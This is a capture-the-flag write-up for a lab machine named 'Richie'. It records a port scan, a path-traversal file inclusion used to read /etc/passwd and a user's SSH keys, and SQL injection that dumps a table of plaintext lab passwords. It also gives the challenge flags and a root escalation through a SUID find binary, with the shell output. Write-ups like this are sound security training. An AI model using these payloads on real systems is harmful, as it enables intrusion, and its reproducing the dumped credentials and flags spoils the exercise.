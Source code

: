 # "Richie" Writeup

Initial Recon

Namp

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Caddy httpd
8080/tcp open  http        Apache httpd 2.4.38 ((Debian))
```

Nothing massively obvious (except the FINC / SQLi) in the web pages so far

## File Includes

So we have the File includes in the main website. (In the http://127.0.0.1/index.php?page=PAYLOAD)
part.

Do the standard

  - Log files are not there but thats standard docker stuff
  - We get the /etc/passwd  which gives us a *john* user
  

## Database

There is also SQL injection on the 8080 service.

Mangle my enumeration script to get some creds (see script)

User            | Password
------------------------------
omae_wa_mou     | shindeiru
Rick_Astley     | NeverGonnaGiveYouUp
Richie          | Cooldude
John            | 6R5t768y7E654uyg
Isthis          | anSQLserver?
Hey             | ImJustMatthew
Harry           | IamaWizzard!
Evan            | Bestteammateever!
Dan             | Isalegend
Cool_Guy        | Neverseenexplosions
Baby            | Shark
Adam            | Isalegend2



## Trying Creds

 - Creds from the DB are not working with SSH
 - Logins all work on the page but dont give me anything interesting.  Dammit


## Back to Finc

 - As a Guess lets try to grab the user flag with FINC
 
Ok Thats interesting: http://127.0.0.1/index.php?page=../../../../../../home/john/user.txt

```
TODO: - Learn PHP and MySQL [IN PROGRESS] - Setup an SSH server [DONE] - Generate my SSH keys [DONE]
```

Take a look in the .ssh directory, and we find the keys... Awesome sauce,  
Quick and dirty script to grab them


## Ssh and User

cuehack{did_the_name_mislead_you?}


## Root

No Sudo

Check for SUID

```
john@70037aabe340:~$ find / -perm -4000 2>/dev/null
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/passwd
/usr/bin/su
/usr/bin/find
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
john@70037aabe340:~$ id
uid=1000(john) gid=1000(john) groups=1000(john)
john@70037aabe340:~$ ./find . -exec /bin/sh -p \; -quit
bash: ./find: No such file or directory
john@70037aabe340:~$ find . -exec /bin/sh -p \; -quit
# id
uid=1000(john) gid=1000(john) euid=0(root) egid=0(root) groups=0(root),1000(john)

# cat /root/root.txt
cuehack{so_you_found_it}# 
```
